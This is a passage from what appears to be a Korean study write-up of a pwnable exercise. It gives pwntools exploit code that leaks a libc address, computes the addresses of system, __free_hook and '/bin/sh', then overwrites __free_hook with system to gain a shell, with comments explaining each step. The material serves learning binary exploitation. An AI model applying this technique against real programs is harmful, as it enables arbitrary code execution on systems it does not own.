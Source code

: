 ``` python
: 해서 __libc_start_main의 옵셋을 구할때도 그 옵셋에 xx 만큼의 차이값을 더해주는 것.

libc_base를 이용하여 익스플로잇에 필요한 함수, 변수, 문자열의 주소값 얻기.

next(libc.search(b'/bin/sh'))
: libc.search(b'/bin/sh')의 결과로 ELF파일에서 해당 바이트 시퀀스가 나타나는 위치를 찾음.
: 결과는 generator 객체로 반환
: generator = 순회 가느한 객체이지만, 실제 값들은 아직 계산되지 않음.
: 예: /bin/sh 가 1개 이상 나타날 수도 있음.
: next() -> generator에서 첫 번째 값을 가져오는 함수. 여러개중 첫번째 것을 이용하겠다는 말.!!!!
'''
buf = b'A'*0x48
p.sendafter('Buf: ', buf)
p.recvuntil(buf)
libc_start_main_xx = u64(p.recvline()[:-1] + b'\x00'*2)
libc_base = libc_start_main_xx - (libc.symbols['__libc_start_main'] + 231)
# 또는 libc_base = libc_start_main_xx - libc.libc_start_main_return

system = libc_base + libc.symbols['system']
free_hook = libc_base + libc.symbols['__free_hook']
binsh = libc_base + next(libc.search(b'/bin/sh'))

slog('libc_base', libc_base)
slog('system', system)
slog('free_hook', free_hook)
slog('/bin/sh', binsh)
```


free_hook 주소를 system 주소로 덮어쓰기
``` python
# [2] Overwrite 'free_hook' with 'system'
'''
서버가 "To write: " 라는 문자열을 출력할 때까지 기다림
이후 str(free_hook) -> "140189710252648" 문자열
encode() 하면 바이트문자열 b"140189710252648"
따라서 서버에 전송되는 내용은:
140189710252648\n
0x31 0x34 0x30 0x31 0x38 0x39 0x37 0x31 0x30 0x32 0x35 0x32 0x36 0x34 0x38 0x0a
즉, 네트워크로 전달될 때는 ASCII문자 시퀀스로 전달된다.
C 소스코드에서
scanf("%llu", &addr); 로 받는다면
    문자열 140189710252648\n 을 읽어서
    10진수 정수 140189710252648 로 변환해서
    addr 변수(8바이트 long)에 저장한다.

처음에는 free_hook 주소를 전달하고, 두번째로는 system 주소를 전달했다.
C 소스코드에서
*addr = value; 에 의해 
free_hook 주소를 가리키는 포인터 값을 system 주소를 가리키는 값으로 덮어 쓴다.
'''
p.recvuntil('To write: ')
p.sendline(str(free_hook).encode())
p.recvuntil('With: ')
p.sendline(str(system).encode())
```
